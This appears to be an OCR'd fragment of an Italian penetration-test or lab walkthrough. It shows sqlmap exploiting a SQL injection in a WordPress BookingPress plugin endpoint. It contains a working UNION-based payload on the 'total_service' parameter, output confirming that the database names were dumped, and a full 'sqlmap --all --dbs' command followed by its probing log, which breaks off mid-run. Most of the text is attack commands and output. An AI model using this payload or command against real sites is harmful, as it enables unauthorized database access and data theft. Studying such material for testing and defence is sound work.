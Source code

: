     Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: action=bookingpress_front_get_category_services&_wpnonce=224e07b058&category_id=33&total_service=-7502)  UNION ALL SELECT NULL,CONCAT(0x716a766a71,0x696b457271766f6d4152676c5a7767574c62645a617974634e474659426c6f496c6d464a70454d71,0x717a7a6b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[14:46:35] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.0.24, Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:46:36] [INFO] fetching database names
available databases [2]:
[*] blog
[*] information_schema


2) Facciamo una scansione totale:
┌──(kali㉿kali)-[~]
└─$ sqlmap  -r 'sql Inject.req' --batch --dbms mysql --threads 10 --dbs  --all    
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[']_____ ___ ___  {1.6.10#stable}                                                                                                                                                                                                  
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                  
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:19:07 /2022-11-29/

[14:19:07] [INFO] parsing HTTP request from 'sql Inject.req'
it appears that provided value for POST parameter 'total_service' has boundaries. Do you want to inject inside? ('-7502*) ') [y/N] N
[14:19:08] [INFO] testing connection to the target URL
[14:19:09] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:19:09] [INFO] testing if the target URL content is stable
[14:19:09] [INFO] target URL content is stable
[14:19:09] [INFO] testing if POST parameter 'action' is dynamic
[14:19:09] [WARNING] POST parameter 'action' does not appear to be dynamic
[14:19:10] [WARNING] heuristic (basic) test shows that POST parameter 'action' might not be injectable
[14:19:10] [INFO] testing for SQL injection on POST parameter 'action'
[14:19:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:19:13] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:19:13] [INFO] testing 'Generic inline queries'
[14:19:13] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:19:14] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:19:14] [WARNING] time-based comparison requires larger statistical model, please wait......... (done)                                                                                                                                 
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[14:19:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:19:18] [WARNING] POST parameter 'action' does not seem to be injectable
[14:19:18] [INFO] testing if POST parameter '_wpnonce' is dynamic
[14:19:18] [INFO] POST parameter '_wpnonce' appears to be dynamic
[14:19:18] [WARNING] heuristic (basic) test shows that POST parameter '_wpnonce' might not be injectable
[14:19:19] [INFO] testing for SQL injection on POST parameter '_wpnonce'
[14:19:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:19:20] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:19:21] [INFO] testing 'Generic inline queries'